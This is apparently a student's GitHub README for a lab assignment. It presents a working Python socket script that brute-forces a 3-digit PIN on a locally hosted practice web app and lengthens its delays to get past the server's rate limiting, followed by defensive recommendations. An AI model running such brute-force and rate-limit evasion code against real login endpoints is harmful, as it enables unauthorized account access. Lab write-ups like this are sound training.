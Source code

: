 PIN Cracker - IT6 Take Home Drill

This repository contains my solution for the IT6 Take Home Drill assignment, which involves creating a Python script to crack a 3-digit PIN on a locally hosted web application using only the standard socket library.

Project Overview

The challenge involves:
- Analyzing a web application that requires a 3-digit numeric PIN
- Creating a Python script that can systematically try all possible PIN combinations
- Using only the standard socket library (no requests, urllib, etc.)
- Handling server constraints that slow down brute force attempts
- Detecting when the correct PIN is found

Technical Approach

1. Discovering the Server

To find the server's address and port, I used:
- Wireshark to capture network traffic when starting the executable
- Browser developer tools to analyze network requests
- Basic network scanning tools (netstat)

I discovered the server was running on 127.0.0.1 (localhost) on port 8888.

2. Understanding the HTTP Protocol Implementation

By examining the web application in a browser and using developer tools, I:
- Identified the form submission method (POST)
- Determined the endpoint (/verify)
- Found the parameter name for the PIN (magicNumber)
- Analyzed the HTTP request headers and body format

3. Solution Strategy

My approach to brute forcing the PIN involved:

1. Creating a Script: Developed a Python script using only the socket library
2. Crafting HTTP Requests: Manually constructed valid HTTP POST requests
3. Systematic Testing: Implemented a loop to try all possible PINs from 000-999
4. Response Analysis: Parsed responses to detect success or failure
5. Constraint Handling: Added delays between requests to work around server anti-brute force mechanisms

4. Challenges and Solutions

1. Rate Limiting: The server implemented a "slow down" mechanism
   - Solution: Added dynamic sleep timers that increased when warned by the server

2. HTTP Protocol Compliance: Ensuring proper request formatting
   - Solution: Carefully crafted headers and body with proper content length and encoding

3. Response Parsing: Identifying successful attempts from HTTP responses
   - Solution: Added string pattern matching to look for "Congratulations" or "Correct" in responses

The Solution

The final solution is a Python script that:
- Creates a socket connection to the server
- Forms and sends properly formatted HTTP POST requests
- Tests all possible 3-digit PIN combinations (000-999)
- Handles server rate limiting by implementing appropriate delays
- Detects success when the correct PIN is found

```python
import socket
import time

Address = '127.0.0.1'
Port = 8888

sleep_time = 1.0 

for pin in range(0, 1000):
    formatted_pin = f"{pin:03d}"

    try:
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((Address, Port))

        body = f"magicNumber={formatted_pin}"
        request = (
            f"POST /verify HTTP/1.1\r\n"
            f"Host: {Address}:{Port}\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            f"Content-Length: {len(body)}\r\n"
            "Connection: close\r\n"
            "\r\n"
            f"{body}"
        )

        client_socket.sendall(request.encode())
        response = b""
        while True:
            part = client_socket.recv(4096)
            if not part:
                break
            response += part

        decoded_response = response.decode(errors="ignore")

        if "congratulations" in decoded_response.lower() or "access granted" in decoded_response.lower() or "welcome" in decoded_response.lower():
            print(f"[+] Found correct PIN: {formatted_pin}")
            print(decoded_response) 
            break
        elif "slow down" in decoded_response.lower():
            print(f"[!] Server said slow down after PIN {formatted_pin}. Increasing sleep time...")
            sleep_time += 0.5
        else:
            print(f"[-] Tried PIN: {formatted_pin}")

    except Exception as e:
        print(f"[!] Error with PIN {formatted_pin}: {e}")

    finally:
        client_socket.close()

    time.sleep(sleep_time)

print("Brute force completed")

```

What I Learned

Through this assignment, I gained practical experience with:
- Low-level network programming using the socket library
- HTTP protocol details and crafting requests manually
- Brute force attack methodology and constraints
- Defensive countermeasures against brute force attacks
- Network traffic analysis using tools like Wireshark

Security Recommendations

To protect against this type of attack, I would recommend implementing:

1. Account Lockout: Temporarily lock accounts after a certain number of failed attempts
2. Progressive Delays: Increase waiting time between attempts exponentially
6. Stronger Credentials: Increase PIN length or use alphanumeric passwords
7. Request Monitoring: Implement systems to detect and alert on suspicious activity

Video Tutorial

A video walkthrough explaining my approach and answering all required questions can be found [here](VIDEO_LINK).

Running the Code

To run this code yourself:
1. Download and run the executable from the assignment
2. Ensure the server is running
3. Execute the Python script: `scripts.py`
4. The script will output the correct PIN when found

References

- [Socket Programming in Python](https://docs.python.org/3/library/socket.html)
- [HTTP Protocol](https://developer.mozilla.org/en-US/docs/Web/HTTP)
- [Web Security Best Practices](https://owasp.org/www-project-top-ten/)
